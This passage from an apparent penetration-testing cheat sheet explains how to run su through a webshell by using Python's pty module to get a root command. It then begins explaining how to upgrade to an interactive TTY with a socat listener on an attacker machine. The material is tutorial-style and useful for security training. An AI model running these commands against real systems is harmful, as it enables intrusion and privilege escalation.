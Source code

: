### Sneaky Stealthy SU in (Web) Shells

Let's say we have a webshell on the server (probably, we would be logged in as a apache user), however, if we have credentials of another user, and we want to login we need a tty shell. We can use a shell terminal trick that relies on Python to turn our non-terminal shell into a terminal shell.

**Example**

Webshell like

```none
http://IP/shell.php?cmd=id
```

If we try

```none
echo password | su -c whoami
```

Probably will get

```none
standard in must be a tty
```

The su command would work from a terminal, however, would not take in raw stuff via the shell's Standard Input. We can use a shell terminal trick that relies on Python to turn our non-terminal shell into a terminal shell

```none
(sleep 1; echo password) | python -c "import pty; pty.spawn(['/bin/su','-c','whoami']);"
root
```

The above has been referenced from SANS [Sneaky Stealthy SU in (Web) Shells](https://pen-testing.sans.org/blog/2014/07/08/sneaky-stealthy-su-in-web-shells#)

## Spawning a Fully Interactive TTYs Shell

[Ronnie Flathers](https://twitter.com/ropnop) has already written a great blog on [Upgrading simple shells to fully interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) Hence, almost everything is taken from that blog post and kept here for completion.

Many times, we will not get a fully interactive shell therefore it will/ have:

- Difficult to use the text editors like vim
- No tab-complete
- No up arrow history
- No job control

### Socat

Socat can be used to pass full TTY's over TCP connections.

On Kali-Machine (Attackers - Probably yours)

```none
socat file:`tty`,raw,echo=0 tcp-listen:4444 
```
